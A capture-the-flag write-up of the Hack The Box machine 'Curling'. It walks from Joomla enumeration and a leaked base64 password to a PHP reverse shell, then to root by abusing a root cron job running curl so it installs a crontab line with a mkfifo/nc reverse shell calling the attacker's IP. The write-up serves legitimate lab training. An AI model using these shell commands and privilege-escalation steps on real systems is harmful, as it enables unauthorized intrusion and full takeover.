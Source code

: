 ![Pasted image 20230721151151](https://github.com/HoldenDeHaan/HTB-Writeups/assets/165294830/921ad426-9eb8-4ac3-b6e8-c71ed53c4af0)

# Enumeration
Nmap:
```nmap
Nmap scan report for 10.129.174.250
Host is up (0.052s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 8ad169b490203ea7b65401eb68303aca (RSA)
|   256 9f0bc2b20bad8fa14e0bf63379effb43 (ECDSA)
|_  256 c12a3544300c5b566a3fa5cc6466d9a9 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-title: Home
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
|_http-generator: Joomla! - Open Source Content Management
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.29 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## Website
The website has a login. Might be a vector for entry... 

Website is using Joomla as a content management system (CMS). 

Checking the source code for the webpage shows a comment at the bottom of the file:
```html
...SNIP...

	</footer>
	
</body>
      <!-- secret.txt -->
</html>
```
secret.txt might be something. Going to this page gives the following:
```
Q3VybGluZzIwMTgh
```
It's something... Not sure what. Maybe a password? 
Turns out this is base64 encoded. Decoding reveals the password is `Curling2018!`

Looking for more information on the main page shows all the posts created by a super user. The very first post is signed by someone named Floris which is likely the user's name. 

Dirb was able to find a second login at /administrator/ which could be good. 

Found the website's login:
```
floris:Curling2018!
```

# Foothold
Now that I'm in, I need to find a way to pop a shell... 

The templates for these cms systems are very commonly exploitable if I can edit them. There are two templates available: Breez3 and Protostar. I edited the index.php for both of them to be the same. I replaced them with the php-reverse-shell.php script in the attack box. After navigating to the main page with a listener:
```
┌─[us-dedivip-1]─[10.10.14.75]─[htb-th1stle@htb-avtshahq9c]─[~]
└──╼ [★]$ nc -lnvp 1234
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1234
Ncat: Listening on 0.0.0.0:1234
Ncat: Connection from 10.129.174.250.
Ncat: Connection from 10.129.174.250:60630.
Linux curling 4.15.0-156-generic #163-Ubuntu SMP Thu Aug 19 23:31:58 UTC 2021 x86_64 x86_64 x86_64 GNU/Linux
 19:55:18 up 38 min,  0 users,  load average: 0.00, 0.00, 0.00
USER     TTY      FROM             LOGIN@   IDLE   JCPU   PCPU WHAT
uid=33(www-data) gid=33(www-data) groups=33(www-data)
/bin/sh: 0: can't access tty; job control turned off
$ 
```
Woo Hoo! Now I need a user!
Upgrade the shell with standard [interactive shell upgrade](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys)

I can open the folder for Floris, but I can't read user.txt with my current permissions. The directory contains the following:
```
www-data@curling:/home/floris$ ls -la
total 44
drwxr-xr-x 6 floris floris 4096 Aug  2  2022 .
drwxr-xr-x 3 root   root   4096 Aug  2  2022 ..
lrwxrwxrwx 1 root   root      9 May 22  2018 .bash_history -> /dev/null
-rw-r--r-- 1 floris floris  220 Apr  4  2018 .bash_logout
-rw-r--r-- 1 floris floris 3771 Apr  4  2018 .bashrc
drwx------ 2 floris floris 4096 Aug  2  2022 .cache
drwx------ 3 floris floris 4096 Aug  2  2022 .gnupg
drwxrwxr-x 3 floris floris 4096 Aug  2  2022 .local
-rw-r--r-- 1 floris floris  807 Apr  4  2018 .profile
drwxr-x--- 2 root   floris 4096 Aug  2  2022 admin-area
-rw-r--r-- 1 floris floris 1076 May 22  2018 password_backup
-rw-r----- 1 floris floris   33 Jul 21 19:18 user.txt
```
password_backup looks juicy... 

```
www-data@curling:/home/floris$ cat password_backup 
00000000: 425a 6839 3141 5926 5359 819b bb48 0000  BZh91AY&SY...H..
00000010: 17ff fffc 41cf 05f9 5029 6176 61cc 3a34  ....A...P)ava.:4
00000020: 4edc cccc 6e11 5400 23ab 4025 f802 1960  N...n.T.#.@%...`
00000030: 2018 0ca0 0092 1c7a 8340 0000 0000 0000   ......z.@......
00000040: 0680 6988 3468 6469 89a6 d439 ea68 c800  ..i.4hdi...9.h..
00000050: 000f 51a0 0064 681a 069e a190 0000 0034  ..Q..dh........4
00000060: 6900 0781 3501 6e18 c2d7 8c98 874a 13a0  i...5.n......J..
00000070: 0868 ae19 c02a b0c1 7d79 2ec2 3c7e 9d78  .h...*..}y..<~.x
00000080: f53e 0809 f073 5654 c27a 4886 dfa2 e931  .>...sVT.zH....1
00000090: c856 921b 1221 3385 6046 a2dd c173 0d22  .V...!3.`F...s."
000000a0: b996 6ed4 0cdb 8737 6a3a 58ea 6411 5290  ..n....7j:X.d.R.
000000b0: ad6b b12f 0813 8120 8205 a5f5 2970 c503  .k./... ....)p..
000000c0: 37db ab3b e000 ef85 f439 a414 8850 1843  7..;.....9...P.C
000000d0: 8259 be50 0986 1e48 42d5 13ea 1c2a 098c  .Y.P...HB....*..
000000e0: 8a47 ab1d 20a7 5540 72ff 1772 4538 5090  .G.. .U@r..rE8P.
000000f0: 819b bb48                                ...H
www-data@curling:/home/floris$
```
Well that's fun. Looks to be encoded... 
Could be a good use of [cyberchef!](https://gchq.github.io/CyberChef/)

After a lot of playing around with the data, I got a file... 
I just used the magic wand button in the output... until it spat out password.txt as a file. It contains this:

```
5d<wdCbdZu)|hChXll
```

And this turns out to be the user's password:
```
floris : 5d<wdCbdZu)|hChXll
```

# Escalation
I downloaded [pspy64](https://github.com/DominicBreuker/pspy) and ran it on the machine. Eventually it kept trying to run the following:
```
2023/07/21 20:16:37 CMD: UID=0     PID=1      | /sbin/init maybe-ubiquity 
2023/07/21 20:17:01 CMD: UID=0     PID=28283  | curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2023/07/21 20:17:01 CMD: UID=0     PID=28282  | /bin/sh -c    cd / && run-parts --report /etc/cron.hourly 
2023/07/21 20:17:01 CMD: UID=0     PID=28281  | sleep 1 
2023/07/21 20:17:01 CMD: UID=0     PID=28280  | /bin/sh -c sleep 1; cat /root/default.txt > /home/floris/admin-area/input 
2023/07/21 20:17:01 CMD: UID=0     PID=28278  | /bin/sh -c    cd / && run-parts --report /etc/cron.hourly 
2023/07/21 20:17:01 CMD: UID=0     PID=28277  | /bin/sh -c curl -K /home/floris/admin-area/input -o /home/floris/admin-area/report 
2023/07/21 20:17:01 CMD: UID=0     PID=28276  | /usr/sbin/CRON -f 
2023/07/21 20:17:01 CMD: UID=0     PID=28275  | /usr/sbin/CRON -f 
2023/07/21 20:17:01 CMD: UID=0     PID=28274  | /usr/sbin/CRON -f 
2023/07/21 20:17:01 CMD: UID=33    PID=28287  | sh -c uname -a; w; id; /bin/sh -i 
2023/07/21 20:17:01 CMD: UID=33    PID=28285  | sh -c uname -a; w; id; /bin/sh -i 
2023/07/21 20:17:01 CMD: UID=33    PID=28288  | sh -c uname -a; w; id; /bin/sh -i 
2023/07/21 20:17:02 CMD: UID=0     PID=28290  | cat /root/default.txt 
```
So now what?

Well, clearly I need to alter the text in the input file. Currently it just says 
```
url = "http://127.0.0.1"
```
It's basically telling curl to take the input url of the local machine, run it, then write it to an output file. Then that output file is run against cron jobs. So I'll need to point it to something that will write a malicious cronjob. Tricky...
Also, it reverts the input file every time it runs... annoying...

First, I'll need to make a malicious crontab file. I can do this by copying /etc/crontab from my machine into the directory I'm working with. Then I can add the malicious entry as the following:
```bash
echo '*  *  *  *  * root rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.75 1337 >/tmp/f ' >> crontab
```
This should create a cronjob that points a shell back to my listener.
Started the listener on port 1337

I edited the file to be the following:
```
url = "http://10.10.14.75:1234/crontab"
output = "/etc/crontab"
```
Now I wait..... 

```
$ nc -lnvp 1337
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::1337
Ncat: Listening on 0.0.0.0:1337
Ncat: Connection from 10.129.174.250.
Ncat: Connection from 10.129.174.250:37760.
/bin/sh: 0: can't access tty; job control turned off
# whoami && id
root
uid=0(root) gid=0(root) groups=0(root)

```
Curling has been PWNED!
